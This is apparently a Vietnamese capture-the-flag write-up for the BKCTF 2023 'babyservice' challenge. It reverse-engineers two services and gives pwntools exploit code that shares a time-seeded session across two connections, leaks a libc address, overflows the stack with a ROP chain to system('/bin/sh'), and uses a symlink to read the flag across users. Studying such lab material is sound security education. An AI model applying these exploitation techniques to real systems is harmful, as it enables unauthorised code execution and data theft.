

# BKCTF 2023 - babyservice

Các bạn có thể tải challenge ở đây: [build.7z](build.7z)

Sau khi tải về, ta tiến hành giải nén với lệnh sau:

```cmd
7z x build.7z
```


Khi giải nén xong, ta sẽ cần phải chỉnh sửa file `init.sh` vì file bị dư newline ở dòng đầu tiên. Ta sẽ xóa dòng newline dư đó đi:

```cmd
cd build/share
nano init.sh
```


Sau đó ta tiến hành build docker:

```cmd
cd ..
sudo ./setup.sh
```


Tuy nhiên sau khi build xong, ta có thể gặp trường hợp kết nối tới `127.0.0.1:1337` không hiện gì cả nhưng docker vẫn chạy:



Vấn đề có thể do các thư mục không được setup permission đúng với file Dockerfile. Do đó ta sẽ đi vào docker để thiết lập permission bằng tay:

```cmd
docker ps
docker exec -it <container-id> bash

chown -R root:authservice /home/authservice/
chown -R root:babyservice /home/babyservice/
chmod -R 750 /home/authservice/
chmod -R 750 /home/babyservice/
chown -R root:authservice /tmp/users/
chown -R root:authservice /tmp/session/
chmod -R 775 /tmp/users/
chmod -R 775 /tmp/session/
```

Sau khi thiết lập thành công thì ta có thể kết nối:


Vậy là việc setup đã xong, chúng ta hãy tiến hành phân tích file và tấn công!

# Bước 1: Tìm bug

Ta sẽ decompile cả 2 file `babyservice` và `authservice` để tìm các bug có thể trong 2 file. Ở trong hàm main, ta thấy rõ có 4 option tương ứng 4 chức năng khác nhau là `sign_up`, `sign_in`, `set_status` và `get_status`:


Ta sẽ phân tích trước hàm `sign_up` nhé:


Hàm `sign_up` sẽ đọc vào username và password với username chỉ là các ký tự `a-zA-Z0-9` và dấu `_`, password thì cũng cho nhập `a-zA-Z0-9` và các ký tự `.@#$^&*!()\/<>?` nhưng cả username và password tối đa chỉ được 256 ký tự, vừa đủ với 2 biến username và password nên không có overflow. Sau đó chương trình sẽ gửi `0x408` byte dữ liệu bao gồm `option`, `data_len` và `data` cho file `authservice` và nhận result. Hàm kế tiếp là `sign_in`:


Hàm này trông tương tự như hàm `sign_up` nên cũng an toàn. Ta sẽ đi tiếp qua hàm kế là `set_status`:


Ở hàm này, ta thấy được lỗi tràn bộ nhớ của biến toàn cục `size` khi dùng scanf nhưng không giới hạn ký tự nhập vào --> **Buffer Overflow**. Kiểm tra biến `size` thì ta thấy sau biến `size` là biến `fd` được dùng để lưu trữ kết nối tới file `authservice`:


Do đó ta có thể overflow để thay đổi biến `fd` được. Nhưng vì scanf ở đây là nhập chuỗi nên giá trị nhập vào cho mỗi byte là từ `0x30` cho tới `0x39` nên ta không thể nhập size tùy ý được. Do đó nếu muốn nhập size nhỏ nhất thì ta phải nhập số `0`, tức size nhỏ nhất là `0x30` và size lớn nhất thì ta chỉ có thể nhập 2 số `0`, tức `0x3030` nhưng sau kiểm tra thì size sẽ trở về `0x400` vì `0x3030` lớn hơn `0x400`. Nếu size nhỏ hơn hoặc bằng `0x100` thì buffer được dùng là bộ nhớ stack, còn nếu lớn hơn `0x100` thì buffer được dùng sẽ là bộ nhớ heap. Sau khi nhập size thì ta sẽ nhập status và `size` cũng sẽ được cập nhật theo độ dài dữ liệu nhập vào, sau đó dữ liệu cũng sẽ được gửi tới file `authservice`. Hàm cuối cùng sẽ là `get_status`:


Biến `size` chỉ có thể thay đổi ở bên hàm `set_status`. Vẫn như hàm `set_status`, nếu size nhỏ hơn hoặc bằng `0x100` thì buffer `dest` sẽ chứa địa chỉ stack có kích thước `260` byte, còn nếu lớn hơn `0x100` thì buffer `dest` sẽ chứa địa chỉ heap có kích thước của `size`. Sau đó chương trình sẽ gửi và nhận dữ liệu từ `authservice` có chứa nội dung status. Nội dung đó sẽ được copy vào buffer `dest` dựa vào kích thước của file status trên máy do server gửi:


Vậy nếu mà size nhỏ nhưng kích thước file status lại lớn --> **Buffer Overflow**, nhưng đây vẫn là một giả định vì ta không biết có thể thay đổi dữ liệu trong file status với size nhỏ hay không.

Bây giờ ta sẽ cùng phân tích file `authservice` để tìm xem có bug gì không nhé. Hàm `main` sẽ gọi hàm `run` nên ta phân tích hàm `run` luôn. Mới vô hàm `run`, ta đã thấy chương trình set seed với time:


Thông thường khi chương trình set seed với giá trị lấy từ time, ta có thể khai thác để lấy các giá trị random hoặc các thứ liên quan tới các giá trị random đó. Đoạn đầu tiên là `sign_up`:


Chương trình `authservice` cũng có các regex tương ứng với bên `babyservice` khi phân tách `username` và `password`. Ta thấy biến `username` có kích thước 256 và lệnh snprintf cũng chỉ có kích thước tối đa 256 nên nếu ta nhập full size của biến `username`, `path` sẽ có thể bị mất đoạn dữ liệu phía sau. Nhưng vì `username` không cho phép ký tự `/` nên ta không thể tấn công **Path Traversal** được. Do đó hàm này sẽ không có bug. Đoạn kế tiếp sẽ được dùng để đăng nhập:


Nếu đã đăng nhập thì sẽ không đăng nhập tiếp được, nhưng nếu chưa thì sẽ chạy vào hàm `sign_in` để đăng nhập:


Lệnh snprintf cũng bị lỗi tương tự như hàm `sign_up` nhưng cũng vì regex nên ta không thể thay đổi đường dẫn tùy ý được. Hàm này sẽ kiểm tra thư mục `username` và so sánh password nhập vào với dữ liệu trong file `passsword`. Nếu đúng thì sẽ thực thi hàm `create_session` để tạo một thư mục session mới:


Nó sẽ thực thi hàm `gen_name` để tạo ra một tên ngẫu nhiên làm session, sau đó sẽ tạo thư mục với cái tên ngẫu nhiên đó. Hàm `gen_name` có thuật toán như sau:


Ta thấy rằng nó sử dụng hàm `rand` để lấy ngẫu nhiên 16 ký tự. Sau khi gen xong, cái name đó sẽ được lưu vào biến toàn cục `session_name` ở hàm `create_session`. Đoạn code kế tiếp sẽ được dùng để thiết lập status:


Chương trình sẽ truyền vào 2 tham số là `data` và `data_len` nhận từ `babyservice`:


Nó sẽ tạo và mở file status ứng với session hiện tại để ghi dữ liệu vào và ta không thấy bug ở đâu quanh đây. Đoạn code cuối cùng sẽ là đoạn code được dùng để lấy status:


Hàm `get_status` sẽ mở và đọc file nhưng chỉ đọc tối đa 1024 byte từ file vào biến `a1`, là biến `data` được truyền vào, và nó cũng set biến `a2` thành kích thước file đọc được, là biến `data_len` được truyền vào. Do đó ở đây cũng sẽ không có overflow.

Tổng kết:
- babyservice:
	- sign_up: không bug
	- sign_in: không bug
	- set_status: **Buffer Overflow** từ `size` qua `fd`
	- get_status: Có thể **Buffer Overflow** khi size nhỏ nhưng file lớn
- authservice:
	- sign_up: thất thoát dữ liệu khi snprintf
	- sign_in: thất thoát dữ liệu khi snprintf và tạo session bằng rand khi srand dùng time
	- set_status: Không bug
	- get_status: Không bug

Vậy ta sẽ cùng nghĩ ý tưởng với những bug mà ta đã tìm thấy!

# 2. Tìm ý

Như đã biết, khi user login thành công thì 1 session mới sẽ được tạo ngẫu nhiên. Nhưng vì là dùng srand với time nên nó không thực sự ngẫu nhiên TRONG 1 GIÂY! Do đó, nếu ta kết nối cùng 1 lúc 2 tiến trình, tức nếu ta tạo 2 connection tới server cùng 1 lúc, thì lúc đó giá trị `time(0)` là giống nhau, nên seed giống nhau, thành ra khi login sẽ cho 2 tiến trình cùng 1 session và cùng sửa 1 file status.

Exploit `authservice` là điều bất khả thi khi nó không có bug critical nhưng exploit `babyservice` lại hoàn toàn khả thi nếu ta có thể khai thác được hàm `get_status`. Nếu với 2 kết nối cùng 1 session, 1 kết nối sẽ set size và lưu vào file với kích thước lớn kết hợp với 1 kết nối sẽ set `size` với kích thước nhỏ và đọc từ file kích thước lớn đó, vậy lệnh `memcpy` trong hàm `get_status` sẽ copy theo kích thước của file chứ không phải kích thước của `size`, từ đó sẽ gây ra overflow:

```
data_len = 0x400
size = 0x30 (ký tự số 0)    --> buf là con trỏ stack

memcpy(buf, data, data_len) --> overflow
```

Ngược lại, nếu 1 kết nối set size và lưu file với kích thước nhỏ, ví dụ set 1 byte, kết nối còn lại set size với kích thước lớn, vậy khi `memcpy` sẽ không ghi đè toàn bộ buffer mà chỉ ghi đè theo kích thước file, vậy các giá trị trên stack còn lại sẽ có thể bị leak ra theo kích thước của `size`.

```
data_len = 0x1 (file 1 ký tự)
size = 0x30 (ký tự số 0)    --> buf là con trỏ stack

memcpy(buf, data, data_len) --> chỉ ghi đè 1 byte
write(1, buf, size)         --> In ra 1 byte dữ liệu và 0x2f byte rác trên stack
```

Do đó ta hoàn toàn có thể leak dữ liệu cũng như overflow để thực thi shell và lấy flag.

Tổng kết:
- Bước 1: Leak địa chỉ libc
- Bước 2: Lấy shell
- Bước 3: Lấy flag

# 3. Khai thác

Trước khi tiến hành khai thác, mình sẽ viết các hàm để đọc và gửi dữ liệu ứng với các process:

```python
info = lambda msg: log.info(msg)
sla = lambda con, msg, data: con.sendlineafter(msg, data)
sa = lambda con, msg, data: con.sendafter(msg, data)
sl = lambda con, data: con.sendline(data)
```

### Bước 1: Leak địa chỉ libc

Vì ta muốn 2 tiến trình kết nối cùng lúc nên ta sẽ dùng đoạn code sau:

```python
if args.REMOTE:
    p = remote('0', 1337)
    q = remote('0', 1337)
else:
    p = process(exe.path)
    q = process(exe.path)
```

Tiến trình p là chính và sẽ được dùng để khai thác, còn tiến trình q sẽ hỗ trợ việc khai thác. Việc đầu tiên khi kết nối đó là ta sẽ cần phải sign up để có 1 tài khoản hỗ trợ đăng nhập:

```python
cred = b'4321'
sla(p, b'> ', b'1')
sla(p, b'Username: ', cred)
sla(p, b'Password: ', cred)
```

Việc sign up thì có thể cho tiến trình nào tạo cũng được. Sau khi tạo xong, vì cả 2 tiến trình kết nối cùng lúc nên giá trị `time(0)` là giống nhau, suy ra giá trị seed cho srand cũng giống nhau. Vì thế khi sign in trước hay sau không quan trọng cũng sẽ cho ra session giống nhau:

```python
sla(p, b'> ', b'2')
sla(p, b'Username: ', cred)
sla(p, b'Password: ', cred)

sla(q, b'> ', b'2')
sla(q, b'Username: ', cred)
sla(q, b'Password: ', cred)
```

Bây giờ, để leak địa chỉ, ta sẽ cần thiết lập size của tiến trình p thành `0x39` (giá trị lớn nhất cho phép sử dụng con trỏ stack):

```python
time.sleep(0.5)
sla(p, b'> ', b'3')
sla(p, b'Size: ', b'9')
sa(p, b'Status: ', b'1'*0x39)
```

Lưu ý biến `size` sẽ được cập nhật lại theo số lượng byte do người dùng nhập vào nên ta cần phải nhập đủ `0x39` ký tự để `size` vẫn giữ nguyên. Nếu size là `0x39` mà cũng ghi vào file status là `0x39` ký tự thì khi get status sẽ không thể leak được gì trên stack. Do đó ta sẽ lợi dụng tiến trình q cùng một session để chỉnh sửa file status lại:

```python
time.sleep(0.5)
sla(q, b'> ', b'3')
sla(q, b'Size: ', b'9')
sa(q, b'Status: ', b'1')
```

Lúc này ta chỉ ghi vào file status 1 ký tự bằng tiến trình q, nhưng ở bên tiến trình p, giá trị của biến `size` vẫn là `0x39`, do đó khi thực thi get status bên tiến trình p sẽ leak được địa chỉ:


Nếu attach gdb vào tiến trình `babyservice` trong docker đang chạy thì ta sẽ thấy dữ liệu được leak gồm những gì:


Ta thấy 8 byte đầu sẽ là rác nhưng 8 byte kế tiếp là địa chỉ của `printf+175`. Ta hoàn toàn có thể lấy địa chỉ đó để tính địa chỉ base cho libc vì khi chạy và debug nhiều lần thì địa chỉ chỗ đó vẫn là `printf+175` không thay đổi:

```python
time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'Status: ')
p.recv(8)
libc_leak = u64(p.recv(8))
libc.address = libc_leak - 0x6081f
info("Libc leak: " + hex(libc_leak))
info("Libc base: " + hex(libc.address))
```

Khi có libc, ta hoàn toàn có thể lấy được shell một cách dễ dàng!

### Bước 2: Lấy shell

Khi có libc, ta sẽ cần tìm một vài gadget phù hợp để thiết lập các thanh ghi rdi, rsi và rdx nhưng trong trường hợp này, ta chỉ cần tìm gadget setup cho rdi là được vì ta muốn thực thi lệnh `system("/bin/sh")` cho đơn giản. Việc tìm gadget thì các bạn đã quá quen thuộc rồi nên mình sẽ sử dụng gadget sau:

```python
pop_rdi = libc.address + 0x0000000000173373
```

Tiếp theo, tiến trình p đang có `size` là `0x39` và ta vẫn muốn giữ nguyên, không thay đổi. Cái ta muốn thay đổi đó là dữ liệu của file `status` với session tương ứng. Như đã phân tích, chương trình sẽ tiến hành thực thi `memcpy` với kích thước là số byte đọc được từ file chứ không phải kích thước của biến `size`. Do đó nếu biến `size` chỉ có `0x39` thì buffer được dùng là buffer của stack có độ dài `260` byte, nhưng ghi vào file thì độ dài lên tới `1024` byte sẽ gây tràn khi memcpy.

Vậy ta sẽ thay đổi dữ liệu của file status bằng tiến trình q và thay bằng payload mà ta mong muốn tiến trình p thực thi. Trước tiên ta sẽ cần phải tìm offset từ biến buf tới saved rip (không có canary ở file `babyservice` nên không cần lo):

```python
time.sleep(0.5)
sla(q, b'> ', b'3')
sla(q, b'Size: ', b'99')
payload = cyclic(0x300)
sa(q, b'Status: ', payload)

input()
time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'> [+] Status: ')
```

Ta đặt `input` để script dừng lại và tiến hành attach gdb vào tiến trình p. Sau khi attach xong, ta nhấn enter để script chạy tiếp và ta thu được kết quả là chương trình bị segfault:


Kiểm tra thì ta biế được offset từ buf cho tới saved rip là `280`:

```python
>>> from pwn import *
>>> cyclic_find('uaac')
280
```

Vậy payload mới của ta chỉ việc padding 280 byte, sau đó là các lệnh để tạo shell:

```python
time.sleep(0.5)
sla(q, b'> ', b'3')
sla(q, b'Size: ', b'99')
payload = flat(
    b'A'*280,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym.system
    )
sa(q, b'Status: ', payload)

input()
time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'> [+] Status: ')
```

Chạy thử thì ta thấy nó bị EOF ngay lập tức:


Nếu chạy đúng thì sẽ tạo được shell nhưng lại bị lỗi, vấn đề có thể payload sai hoặc là do lỗi thanh ghi `xmm` của lệnh system. Attach gdb vào tiến trình p thì thấy payload vẫn hoạt động tốt:


Nếu ta `continue` thì sẽ gặp lỗi `xmm`:


Vậy là do stack không chia hết cho `0x10` rồi. Do đó ta chỉ việc thêm lệnh `ret` trước khi thực thi system là được:

```python
time.sleep(0.5)
sla(q, b'> ', b'3')
sla(q, b'Size: ', b'99')
payload = flat(
    b'A'*280,
    pop_rdi + 1,
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.sym.system
    )
sa(q, b'Status: ', payload)

time.sleep(0.5)
sla(p, b'> ', b'4')
p.recvuntil(b'> [+] Status: ')
```

Nếu bạn thắc mắc là tại sau lại là `pop_rdi + 1` thì vì sau lệnh `pop rdi` là `ret` mà `pop rdi` có opcode 1 byte thôi nên mình cộng thêm 1. Nếu chạy lại script lần nữa thì ta lấy được shell:


Tuy nhiên ta thấy được rằng không thể đọc file `flag` trong thư mục của user `authservice` vì chúng ta đang là user `babyservice`.

### Bước 3: Lấy flag

Nếu đọc trực tiếp thì sẽ không được vì chị phân quyền. Nhưng nếu đọc gián tiếp thì lại được. Nếu để ý, ta sẽ thấy trong Dockerfile rằng thư mục `/tmp/user` và `/tmp/session` đều được đọc bởi `authservice`. Do đó ý tưởng của ta sẽ là tìm cách đưa flag vào trong 2 thư mục đó và nhờ `authservice` đọc và trả về cho `babyservice`.

Ở đây ta sẽ có một mẹo đó là sử dụng symlink của linux. Symlink này sẽ cho phép ta tạo ra một file link trỏ tới file khác ngay cả khi file khác đó ta không có quyền đọc hay ghi gì cả. Do đó ta sẽ thử tạo symlink của file flag và thay thế file status của session thành symlink đó xem coi có lỗi hay không:


A ha, kết quả là không bị lỗi! Vậy nếu ta vẫn còn cái tiến trình q (không phải tiến trình tạo shell) thì ta cho nó get status lại lần nữa để đọc flag thôi. Vì mình thấy ở đây có nhiều session nên ta có thể dùng đoạn code sau để thay đổi file status của toàn bộ session:

```python
sl(p, b'ls /tmp/session')
while True:
    session_name = p.recvline(timeout=1)[:-1]
    if not session_name:
        break
    sl(p, b'rm /tmp/session/' + session_name + b'/status')
    sl(p, b'ln -s /home/authservice/flag /tmp/session/' + session_name + b'/status')
```

Sau khi dùng tiến trình p (tiến trình tạo shell) thay đổi file status, ta chỉ việc get status ở tiến trình q:

```python
sla(q, b'> ', b'4')
print(q.recvuntil(b'Status: '))
print(q.recvline())
```

Kết quả là ta lấy được flag:


Chuỗi `something here~~~` chính là dữ liệu trong file flag local của mình.

Full script: [exploit.py](exploit.py)